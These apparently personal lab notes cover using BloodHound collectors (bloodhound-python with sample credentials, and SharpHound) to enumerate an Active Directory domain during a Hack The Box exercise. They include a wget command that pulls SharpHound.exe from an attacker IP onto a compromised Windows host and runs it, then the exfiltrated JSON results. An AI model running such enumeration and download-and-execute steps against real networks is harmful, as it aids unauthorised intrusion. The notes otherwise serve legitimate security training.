

# Bloodhound and collectors

>[!summary]
>BloodHound is a single page Javascript web application, built on top of [Linkurious](http://linkurio.us/), compiled with [Electron](http://electron.atom.io/), with a [Neo4j](https://neo4j.com/)database fed by a PowerShell ingestor.
>
>BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.
>
>\- [BloodHound with Kali Linux: 101](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

BloodHound collectors can be found in `BloodHound/Collectors/`:

```
$ ls BloodHound/Collectors
AzureHound.ps1  DebugBuilds  SharpHound.exe  SharpHound.ps1
```

## Get data for Bloodhound using remote access

```bash
kali@kali:~/opt/$ pip3 install bloodhound-python
kali@kali:~/opt/$ bloodhound-python -u jsmith -p Password123 -ns 10.11.1.123 -d domain.local -c All
```

## Get data for Bloodhound using SharpHound

>[!summary]
>SharpHound is the official data collector for BloodHound. It is written in C# and uses native Windows API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.
>
>\- [SharpHound - BloodHound 3.0.3 documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)

```bash
PS C:\Windows\temp> wget http://10.10.14.164/SharpHound.exe -o SH.exe
PS C:\Windows\temp> .\SH.exe
2022-07-16T09:55:18.7480731-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-16T09:55:18.7636730-07:00|INFORMATION|Initializing SharpHound at 9:55 AM on 7/16/2022
2022-07-16T09:55:18.9824331-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-16T09:55:19.1543162-07:00|INFORMATION|Beginning LDAP search for streamIO.htb
2022-07-16T09:55:19.2011675-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-07-16T09:55:19.2011675-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-07-16T09:55:49.8262149-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-07-16T09:56:03.4512057-07:00|INFORMATION|Consumers finished, closing output channel
2022-07-16T09:56:03.5136596-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-07-16T09:56:03.9199086-07:00|INFORMATION|Status: 97 objects finished (+97 2.204545)/s -- Using 57 MB RAM
2022-07-16T09:56:03.9199086-07:00|INFORMATION|Enumeration finished in 00:00:44.7775965
2022-07-16T09:56:04.0761652-07:00|INFORMATION|SharpHound Enumeration Completed at 9:56 AM on 7/16/2022! Happy Graphing!

PS C:\Windows\temp> ls
...
-a----        7/16/2022   9:56 AM          11278 20220716095603_BloodHound.zip
...

# move the file on the attacker machine

$ unzip 20220716095603_BloodHound.zip
Archive:  20220716095603_BloodHound.zip
  inflating: 20220716095603_computers.json
  inflating: 20220716095603_users.json
  inflating: 20220716095603_groups.json
  inflating: 20220716095603_containers.json
  inflating: 20220716095603_domains.json
  inflating: 20220716095603_gpos.json
  inflating: 20220716095603_ous.json

┌──(kali㉿kali)-[~/…/B2R/StreamIO/loot/BH]
└─$ ls
20220716095603_BloodHound.zip  20220716095603_computers.json  20220716095603_containers.json  20220716095603_domains.json  20220716095603_gpos.json  20220716095603_groups.json  20220716095603_ous.json  20220716095603_users.json
```

Then drag and drop all the JSON files inside the BloodHound GUI:

